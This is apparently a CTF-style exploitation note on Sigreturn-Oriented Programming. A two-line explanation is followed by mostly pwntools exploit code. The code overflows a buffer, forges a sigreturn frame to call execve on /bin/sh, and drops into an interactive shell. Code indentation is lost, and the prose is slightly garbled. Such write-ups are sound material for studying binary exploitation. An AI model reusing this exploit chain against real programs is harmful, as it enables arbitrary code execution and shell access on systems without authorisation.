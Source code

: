 
# Sigreturn

After a call to sigreturn, the sigreturn signal is send, the kernel puts on the stack the current context and calls the signal handler. It then returns the execution with the saved context.
We can put the context ourself in the stack to get the process control flow.


```python
srop_frame = SigreturnFrame()
srop_frame.rax = constants.SYS_execve
srop_frame.rdi = motivation_letter
srop_frame.rsi = 0
srop_frame.rdx = 0
srop_frame.rip = syscall

# SYS_SIGRETURN (rax=0xf)
rop2 = b"/bin/sh\x00"
rop2 += p64(xor_rax_inc_al)
rop2 += p64(inc_al) * 0xe
rop2 += p64(syscall)
rop2 += bytes(srop_frame)
```

```python
def find_offset(io):
io.sendline(cyclic(0x100))
io.wait()

pid = io.__getattr__('pid')
corefile = f'{exe.path}.{pid}'
core = Coredump(corefile)
os.remove(corefile)

io.close()
return cyclic_find(core.fault_addr) #cyclic_find(core.rip/eip)

write_no_rdx = 0x400163
syscall = 0x4000ff
main = 0x400102
ret = 0x400101
hello_str = 0x600197
_read = 0x400135
main_no_sub = 0x400106

# find offset
#io = process([exe.path])

#io.readuntil(b'name : ')
offset = 15 #find_offset(io)
print(f'Offset = {hex(offset)}')

io = start()

context.clear()
context.arch = "amd64"

#srop
srop_frame = SigreturnFrame()
srop_frame.rax = constants.SYS_execve
srop_frame.rdi = hello_str
srop_frame.rsi = 0
srop_frame.rdx = 0
srop_frame.rip = syscall

# SYS_SIGRETURN (rax=0xf)
srop1 = bytes(srop_frame)

print(srop_frame)

print(hex(len(srop1)))

print(io.readuntil(b'name : '))
io.sendline(cyclic(offset) + p64(main) + cyclic(0x18) + srop1)

print(io.readuntil(b'name : '))
payload = cyclic(offset) + p64(syscall) + p64(syscall) + p64(syscall)
print(hex(len(payload)))
io.sendline(payload)

sleep(0.2)
io.sendline(cyclic(0xf-2) + b'\4')

io.interactive()

if args.SSH:
s.download("/tmp/flag")
```